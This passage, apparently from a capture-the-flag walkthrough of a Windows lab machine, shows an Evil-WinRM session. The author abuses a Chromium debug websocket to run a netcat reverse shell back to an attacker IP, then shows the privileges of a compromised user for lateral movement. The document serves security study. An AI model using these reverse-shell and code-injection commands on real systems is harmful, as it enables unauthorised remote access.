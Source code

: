 had to keep starting over again as the CEF debug server kept changing

```text
*Evil-WinRM* PS C:\Users\alcibiades> C:\Users\alcibiades\c.exe --url ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd --code "process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')"
c.exe : [2020/07/24 07:44:55:7426] U: >>> process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...45 -e cmd.exe'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:44:55:7426] U: <<< ChildProcess
```

### Moving laterally to user - `cyork`

```text
*Evil-WinRM* PS C:\Users\cyork\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\cyork S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
```
